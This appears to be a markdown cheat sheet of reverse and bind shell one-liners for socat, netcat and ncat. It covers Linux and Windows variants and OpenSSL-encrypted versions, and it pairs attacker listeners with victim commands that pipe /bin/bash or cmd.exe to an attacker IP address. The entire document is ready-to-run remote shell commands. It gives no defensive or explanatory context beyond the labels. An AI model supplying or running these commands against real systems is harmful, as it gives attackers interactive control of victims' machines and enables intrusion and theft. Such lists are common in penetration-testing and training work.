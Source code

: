 # Reverse shell
## Socat<br>
**Attacker:** `socat -d -d TCP4-LISTEN:4443 STDOUT`<br>
**Victim:** `socat TCP4:192.168.0.107:4443 EXEC:/bin/bash`<br>
**Victim windows:** `socat TCP4:192.168.0.107:4443 EXEC:'cmd.exe',pipes`<br>

## Encrypted reverse shell
Create certificate: 
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
**Attacker:** `socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT`<br>
**Victim:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:'cmd.exe',pipes`<br>

# Bind shell
## Socat
**Victim:** `socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash`<br>
**Victim Windows:**  `socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes`<br>
**Attacker:** `socat - TCP4:VICTIMIP:4443`

## Encrypted reverse shell
From victim machine we have to cert .pem file we can generate certificate and transfer to victim.<br>
**Victim:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes`<br>
**Attacker:**  `socat - OPENSSL:VICTIMIP:4443,verify=0`<br>


# Netcat
## Reverse shell<br>
**Attacker:** `nc -lvnp 4444`<br> **Encrypted:** `ncat -l 8080 --ssl -v`
**Victim:** `nc 192.168.0.107 4444 -e /bin/bash` **Encrypted:** `ncat 192.168.0.110 8080 --ssl -e /bin/bash -v`

## Bind shell
**Victim:** `nc -lvp 4444 -e /bin/bash`<br>
**Attacker:** `nc 192.168.0.106 4444`<br>

